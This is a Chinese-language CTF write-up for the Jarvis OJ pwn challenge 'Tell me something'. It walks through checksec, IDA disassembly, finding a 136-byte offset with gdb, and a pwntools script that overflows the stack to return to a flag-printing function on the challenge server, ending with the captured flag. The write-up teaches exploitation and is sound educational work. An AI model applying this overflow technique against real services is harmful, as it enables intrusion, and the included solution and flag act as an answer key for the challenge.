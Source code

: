 # [Jarvis OJ] PWN Tell me something

> nc pwn.jarvisoj.com 9876

首先下载文件使用checksec查看保护措施：
```
[*] '/root/pwn/guestbook.d3d5869bd6fb04dd35b29c67426c0f05'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found       //没有堆栈保护
    NX:       NX enabled            //堆栈不可执行
    PIE:      No PIE (0x400000)
```

放入IDA进行查看
```C
; int __cdecl main(int argc, const char **argv, const char **envp)
public main
main proc near
; __unwind {
sub     rsp, 88h
mov     edx, 14h        ; n
mov     esi, offset aInputYourMessa ; "Input your message:\n"
mov     edi, 1          ; fd
call    _write
mov     rsi, rsp        ; buf
mov     edx, 100h       ; nbytes
xor     edi, edi        ; fd
call    _read
mov     edx, 29h        ; n
mov     esi, offset aIHaveReceivedY ; "I have received your message, Thank you"...
mov     edi, 1          ; fd
call    _write
add     rsp, 88h
retn
; } // starts at 4004E0
main endp
```
main函数里面进行了基本的交互，在这里面有一个非常值得关注的read函数，很可能造成溢出，控制rip。

使用shift+f12查看字符串信息
```
.rodata:0000000000400714 modes           db 'r',0                ; DATA XREF: good_game+1↑o
.rodata:0000000000400716 ; char filename[]
.rodata:0000000000400716 filename        db 'flag.txt',0         ; DATA XREF: good_game+6↑o
.rodata:000000000040071F aInputYourMessa db 'Input your message:',0Ah,0
.rodata:000000000040071F                                         ; DATA XREF: main+C↑o
.rodata:0000000000400734                 align 8
.rodata:0000000000400738 aIHaveReceivedY db 'I have received your message, Thank you!',0Ah,0
.rodata:0000000000400738                                         ; DATA XREF: main+2F↑o
```

发现在good_game处引用了flag.txt，于是跟进这个函数发现是读取当前路径下flag.txt并将内容写入标准输出。

于是思路就很明确了，在main函数中通过read函数的读取溢出控制RIP指向good_game函数地址。
然后就能得到flag。

我们可以通过pattern.py测试需要输入多少字符能造成溢出。
>root@01da7a55bcdc:~/pwn# python pattern.py create 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
 
使用gdb调试发现
```
pwndbg> r
Starting program: /root/pwn/guestbook.d3d5869bd6fb04dd35b29c67426c0f05 
Input your message:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
I have received your message, Thank you!

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400525 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────────────────────────────────────────
*RAX  0x29
 RBX  0x0
*RCX  0x7ffff7b042c0 (__write_nocancel+7) ◂— cmp    rax, -0xfff
*RDX  0x29
*RDI  0x1
*RSI  0x400738 ◂— and    byte ptr [r8 + 0x61], bpl
*R8   0x400700 (__libc_csu_fini) ◂— ret    
*R9   0x7ffff7de7ab0 (_dl_fini) ◂— push   rbp
*R10  0x37b
*R11  0x246
*R12  0x400526 (_start) ◂— xor    ebp, ebp
*R13  0x7fffffffe6d0 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x400690 (__libc_csu_init) ◂— push   r15
*RSP  0x7fffffffe5f8 ◂— 0x3765413665413565 ('e5Ae6Ae7')
*RIP  0x400525 (main+69) ◂— ret    
─────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0x400525 <main+69>    ret    <0x3765413665413565>
```
这样发现填充后通过控制0xe5Ae6Ae7的位置可以控制RIP
>root@01da7a55bcdc:~/pwn# python pattern.py offset e5Ae6Ae7
136

知道填充位有136bytes

于是写出攻击脚本
```python
#coding = utf-8
from pwn import *

debug = False

HOST = 'pwn.jarvisoj.com'
PORT = 9876

getflag = 0x400620


if debug:
	p = process('./guestbook.d3d5869bd6fb04dd35b29c67426c0f05')

else :
	p = remote(HOST,PORT)

payload = 'a'*136+p64(getflag)
p.recvuntil('message:')
p.sendline(payload)
p.interactive()
```

执行后返回flag
```
root@01da7a55bcdc:~/pwn# python exp.py 
[+] Opening connection to pwn.jarvisoj.com on port 9876: Done
[*] Switching to interactive mode
I have received your message, Thank you!
PCTF{This_is_J4st_Begin}
```


